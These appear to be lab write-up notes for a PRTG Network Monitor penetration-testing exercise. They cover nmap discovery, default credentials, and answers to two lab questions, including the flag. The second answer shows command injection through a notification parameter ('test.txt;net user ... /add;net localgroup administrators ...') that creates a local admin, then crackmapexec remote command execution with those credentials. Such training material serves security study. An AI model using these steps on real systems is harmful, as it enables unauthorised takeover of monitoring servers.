

# PRTG Network Monitor
PRTG Network Monitor is agentless network monitor software. It can be used to monitor bandwidth usage, uptime and collect statistics from various hosts, including routers, switches, servers, and more.

## Discovery/Footprinting/Enumeration
We can quickly discover PRTG from an Nmap scan. It can typically be found on common web ports such as `80`, `443`, or `8080`. It is possible to change the web interface port in the Setup section when logged in as an admin.

```shellsession
$ sudo nmap -sV -p- --open -T4 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 15:41 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.06% done
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 65492 closed ports, 24 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  ssl/http      Splunkd httpd
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp  open  ssl/http      Splunkd httpd
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

From the Nmap scan above, we can see the service` Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)` detected on port 8080.

Default credentials `prtgadmin`:`prtgadmin`.

Once we have discovered PRTG, we can confirm by browsing to the URL and are presented with the login page.

```
http://10.129.201.50:8080/index.htm
```

## Questions
1. What version of PRTG is running on the target? **Answer: 18.1.37.13946**
   - Identify the target's PRTG version by running a nmap scan:
        ```shellsession
        $ sudo nmap -p- -T4 --open -sV 10.129.48.212
        Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-17 06:57 EDT
        Nmap scan report for 10.129.48.212
        Host is up (0.16s latency).
        Not shown: 65498 closed tcp ports (reset), 19 filtered tcp ports (no-response)
        Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
        PORT      STATE SERVICE       VERSION
        80/tcp    open  http          Microsoft IIS httpd 10.0
        135/tcp   open  msrpc         Microsoft Windows RPC
        139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
        445/tcp   open  microsoft-ds?
        3389/tcp  open  ms-wbt-server Microsoft Terminal Services
        5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
        8000/tcp  open  ssl/http      Splunkd httpd
        8080/tcp  open  http          Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
        8089/tcp  open  ssl/http      Splunkd httpd
        47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
        49664/tcp open  msrpc         Microsoft Windows RPC
        49665/tcp open  msrpc         Microsoft Windows RPC
        49666/tcp open  msrpc         Microsoft Windows RPC
        49667/tcp open  msrpc         Microsoft Windows RPC
        49668/tcp open  msrpc         Microsoft Windows RPC
        49669/tcp open  msrpc         Microsoft Windows RPC
        49670/tcp open  msrpc         Microsoft Windows RPC
        49671/tcp open  msrpc         Microsoft Windows RPC
        Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
        ```
2. Attack the PRTG target and gain remote code execution. Submit the contents of the flag.txt file on the administrator Desktop. **Answer: WhOs3_m0nit0ring_wH0?**
   - Successfully logged in with `prtgadmin`:`Password123`
   - Go to http://10.129.50.90:8080/myaccount.htm?tabid=2 → `Add new Notification`. Give it a name then scroll down to `Execute Program`, under `Program File`, select `Demo exe notification - outfile.ps1` from the drop-down. Finally, in the parameter field, enter a command. For our purposes, we will add a new local admin user by entering `test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add`. After clicking `Save`, we will be redirected to the `Notifications` page and see our new notification in the list.
   - Click on `Send test Notification` to trigger the command:
        
   - Use crackmapexec to log in as local admin and read the flag:
        ```shellsession
        $ sudo crackmapexec smb 10.129.50.90 -u prtgadm1 -p Pwn3d_by_PRTG! -X 'more C:/Users/Administrator/Desktop/flag.txt'
        SMB         10.129.50.90    445    APP03            [*] Windows 10 / Server 2019 Build 17763 x64 (name:APP03) (domain:APP03) (signing:False) (SMBv1:None)
        SMB         10.129.50.90    445    APP03            [+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
        SMB         10.129.50.90    445    APP03            [+] Executed command via wmiexec
        SMB         10.129.50.90    445    APP03            #< CLIXML
        SMB         10.129.50.90    445    APP03            WhOs3_m0nit0ring_wH0?
        ```